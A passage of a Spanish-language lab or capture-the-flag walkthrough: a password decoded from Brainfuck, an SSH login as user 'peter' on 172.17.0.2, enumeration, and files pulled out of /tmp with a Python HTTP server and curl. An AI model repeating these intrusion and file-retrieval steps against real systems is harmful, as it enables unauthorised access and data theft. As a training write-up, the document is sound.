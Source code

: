 ## Explotacion de Vulnerabilidades
### Vector de Ataque
Tenemos ese contendio asi que le pasamos ese contenido a **Deepseek** para que informacion nos puede dar:
Indica que el formato es **Brainfuck** y el resultado en decodificado es:
```bash
9h889h23hhss2
```

### Intrusion
Tenemos la posible contrasena del usuario **peter** asi que nos intentarmeos conectar por **ssh**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh peter@172.17.0.2 # ( 9h889h23hhss2 )
```

---
## Escalada de Privilegios
### Enumeracion del Sistema

**Hallazgos Clave:**
Listamos los permisos de este usaurio tenemos lo siguiente: **nota_importante.txt**
### Explotacion de Privilegios

###### Usuario `[ petter ]`:
Viendo el contenido del archivo tenemos la data:
```bash
NO REINICIES EL SISTEMA!!

HAY UN ARCHIVO IMPORTANTE EN TMP
```

Ahora estamos en **tmp** y tenemos los siguientes archivos:
```bash
importante_octopus.odt
recuerdos_del_sysadmin.txt
```

Ahora verificamos que existe el binario de **python3**
```bash
which python3
```

Nos traemos el bianario a nuestro equipo:
```bash
python3 -m http.server 8080
```

realizamos la peticion para descargarlol en nuestra maquina de atacante:
```bash
curl http://172.17.0.2:8080/importante_octopus.odt --output importante_octopus.zip
```
